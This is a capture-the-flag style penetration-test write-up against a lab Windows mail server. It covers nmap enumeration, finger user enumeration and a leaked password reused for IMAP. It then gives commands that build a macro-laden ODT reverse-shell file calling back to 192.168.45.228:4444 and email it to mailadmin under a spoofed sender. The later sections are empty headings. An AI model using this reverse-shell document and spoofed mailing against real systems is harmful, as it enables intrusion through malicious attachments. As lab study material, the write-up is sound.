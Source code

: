 #Pwned! 
```IP
192.168.187.140
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.187.140 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE        REASON          VERSION
25/tcp    open  smtp           syn-ack ttl 125 Mercury/32 smtpd (Mail server account Maiser)          
| smtp-commands: localhost Hello nmap.scanme.org; ESMTPs are:, TIME, SIZE 0, HELP
|_ Recognized SMTP commands are: HELO EHLO MAIL RCPT DATA RSET AUTH NOOP QUIT HELP VRFY SOML                         
79/tcp    open  finger         syn-ack ttl 125 Mercury/32 fingerd
| finger: Login: Admin         Name: Mail System Administrator\x0D
| \x0D                              
|_[No profile information]\x0D
105/tcp   open  ph-addressbook syn-ack ttl 125 Mercury/32 PH addressbook server
106/tcp   open  pop3pw         syn-ack ttl 125 Mercury/32 poppass service
110/tcp   open  pop3           syn-ack ttl 125 Mercury/32 pop3d
|_pop3-capabilities: TOP EXPIRE(NEVER) UIDL USER APOP
135/tcp   open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn    syn-ack ttl 125 Microsoft Windows netbios-ssn
143/tcp   open  imap           syn-ack ttl 125 Mercury/32 imapd 4.62
|_imap-capabilities: OK complete CAPABILITY IMAP4rev1 AUTH=PLAIN X-MERCURY-1A0001
443/tcp   open  ssl/http       syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
|_http-title: Time Travel Company Page
| tls-alpn:
|_  http/1.1
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE      
|_  Potentially risky methods: TRACE                     
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024                               
| Signature Algorithm: sha1WithRSAEncryption             
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6 
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds?  syn-ack ttl 125
2224/tcp  open  http           syn-ack ttl 125 Mercury/32 httpd
5040/tcp  open  unknown        syn-ack ttl 125
7680/tcp  open  pando-pub?     syn-ack ttl 125
8000/tcp  open  http           syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-title: Time Travel Company Page
|_http-open-proxy: Proxy might be redirecting requests
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
11100/tcp open  vnc            syn-ack ttl 125 VNC (protocol 3.8)              
| vnc-info:
|   Protocol version: 3.8
|   Security types:                                  
|_    Unknown security type (40)
20001/tcp open  ftp            syn-ack ttl 125 FileZilla ftpd 0.9.41 beta   
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            312 Oct 20  2020 .babelrc                      
| -r--r--r-- 1 ftp ftp            147 Oct 20  2020 .editorconfig
| -r--r--r-- 1 ftp ftp             23 Oct 20  2020 .eslintignore     
| -r--r--r-- 1 ftp ftp            779 Oct 20  2020 .eslintrc.js
| -r--r--r-- 1 ftp ftp            167 Oct 20  2020 .gitignore
| -r--r--r-- 1 ftp ftp            228 Oct 20  2020 .postcssrc.js
| -r--r--r-- 1 ftp ftp            346 Oct 20  2020 .tern-project
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 build
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 config
| -r--r--r-- 1 ftp ftp           1376 Oct 20  2020 index.html
| -r--r--r-- 1 ftp ftp         425010 Oct 20  2020 package-lock.json
| -r--r--r-- 1 ftp ftp           2454 Oct 20  2020 package.json
| -r--r--r-- 1 ftp ftp           1100 Oct 20  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 src
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 static
|_-r--r--r-- 1 ftp ftp            127 Oct 20  2020 _redirects
|_ftp-bounce: bounce working!          
| ftp-syst:                                     
|_  SYST: UNIX emulated by FileZilla
33006/tcp open  unknown        syn-ack ttl 125
| fingerprint-strings:
|   JavaRMI, Kerberos, NULL, SMBProgNeg, afp:
|_    Host '192.168.45.228' is not allowed to connect to this MariaDB server
49664/tcp open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc          syn-ack ttl 125 Microsoft Windows RPC
```
## Finger 79
```
perl finger-user-enum.pl -U ../../users.txt -t 192.168.187.140
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207171044.png?raw=true)
## IMAP 143 imapd 4.62
We discover here 2 things. the first one is that the password discovered in http 8000 works here
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207173958.png?raw=true)
secondly, the server appears to be processing automatically spreadsheets and documents
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207173911.png?raw=true)
We also know that we need to send it to mailadmin 
```
mailadmin@localhost
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207174320.png?raw=true)

## HTTP 443

possible usernames in dir /team
```
agnes
charlotte
ela_arwel
jonas
magnus
martha
```
## HTTP 8000
we find a password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207172748.png?raw=true)
```
SicMundusCreatusEst
```
## HTTP 2224
mlss
Mercury/32

## FTP 20001 FileZilla ftpd 0.9.41 beta
couldnt find anything interesting

# Exploitation
For the malicious libreoffice odt file we will need to create a macro that executes automatically a revshell
We will use the following script
https://github.com/0bfxgh0st/MMG-LO/blob/main/mmg-odt.py
from
https://github.com/0bfxgh0st/MMG-LO/tree/main
```
python mmg-odt.py windows 192.168.45.228 4444
```

```
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.odt --server 192.168.187.140 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

